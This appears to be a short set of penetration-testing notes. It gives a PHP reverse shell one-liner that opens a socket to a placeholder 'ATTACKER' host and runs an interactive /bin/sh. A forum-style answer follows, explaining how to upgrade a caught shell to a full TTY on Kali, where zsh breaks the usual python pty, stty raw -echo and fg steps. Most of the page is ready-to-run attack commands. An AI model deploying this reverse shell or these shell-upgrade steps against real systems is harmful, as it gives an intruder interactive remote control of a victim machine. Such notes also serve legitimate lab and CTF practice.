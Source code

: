 python3 -c 'import pty; pty.spawn("/bin/bash")'  
-----------------  
php -r '$sock=fsockopen("ATTACKER", PORT);exec("/bin/sh -i <&3 >&3 2>&3");'  
^Reverse shell on PHP  
  
  
##################################################################################  
  
2  
  
The reason why it doesn't work in Kali Linux is because the latest Kali uses the zsh shell by default, not bash. To get it to work, you just have to make sure you're using the bash shell.  
  
To temporarily switch to a bash shell, run the following command in your terminal:  
  
exec bash --login  
  
You can confirm if you're using bash by running:  
  
ps -p $$  
  
In the terminal which uses bash, run the listener and run the commands to upgrade the shell:  
  
python -c 'import pty; pty.spawn("/bin/bash")'  
CTRL + Z  
stty raw -echo  
fg  
export TERM=xterm  
OR
script -q /dev/null bash
As long as you're using bash and not zsh, it will work.  
##################################################################################